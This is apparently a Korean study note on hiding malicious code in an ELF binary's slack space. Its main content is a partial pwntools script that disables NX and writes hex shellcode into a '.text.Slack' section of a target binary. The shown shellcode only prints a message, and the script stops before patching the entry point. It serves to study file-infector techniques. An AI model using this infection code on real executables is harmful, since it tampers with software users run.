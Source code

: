 컴파일 한 파일 확인
![kr/기록/논문/assets/Slack Space를 이용한 악성 코드/assets/Slack Space을 이용한 악성 코드/Pasted image 20230808103924.png](/img/user/kr/%EA%B8%B0%EB%A1%9D/%EB%85%BC%EB%AC%B8/assets/Slack%20Space%EB%A5%BC%20%EC%9D%B4%EC%9A%A9%ED%95%9C%20%EC%95%85%EC%84%B1%20%EC%BD%94%EB%93%9C/assets/Slack%20Space%EC%9D%84%20%EC%9D%B4%EC%9A%A9%ED%95%9C%20%EC%95%85%EC%84%B1%20%EC%BD%94%EB%93%9C/Pasted%20image%2020230808103924.png)

파일을 다음 코드를 이용해 감염


```python
from pwn import *

from six import b

  

#virus = b"\x48\xc7\xc0\x78\x11\x40\x00\x48\x83\xc0\x2e\x48\x89\xc6\x48\xc7\xc0\x01\x00\x00\x00\x48\xc7\xc7\x01\x00\x00\x00\x48\xc7\xc2\x0c\x00\x00\x00\x0f\x05\x48\xc7\xc0\x3c\x00\x00\x00\x48\xc7\xc7\x00\x00\x00\x00\x0f\x05\x68\x65\x6c\x6c\x6f\x57\x24\x52\x0f\x8c\x00\x00\x00\x00"

  

virus = b"\x48\xc7\xc0\x78\x11\x40\x00\x48\x83\xc0\x2e\x48\x89\xc6\x48\xc7\xc0\x01\x00\x00\x00\x48\xc7\xc7\x01\x00\x00\x00\x48\xc7\xc2\x0e\x00\x00\x00\x0f\x05\xff\x15\x00\x00\x00\x00\x50\x10\x40\x00\x00\x00\x00\x00\x55\x6e\x48\x61\x70\x70\x79\x20\x0a\x00"

  

target = 'prob'

JUMPOFFSET = 0x0

e = ELF(target)

e.disable_nx()

text = e.get_section_by_name('.text')

  

slack = e.get_section_by_name('.text.Slack')

  

virus = int(slack.header.sh_addr + JUMPOFFSET + 8).to_bytes(8, byteorder='little') + virus

  

if len(slack.data()) >= len(virus):

# write virus code in empty space

print('data before: ', slack.data())

with open(target, 'rb+') as f:

f.seek(slack.header.sh_offset)

print('Wrote: ', f.write(virus))

  

# manipulate .text area

entry_offset = e.entry

  
```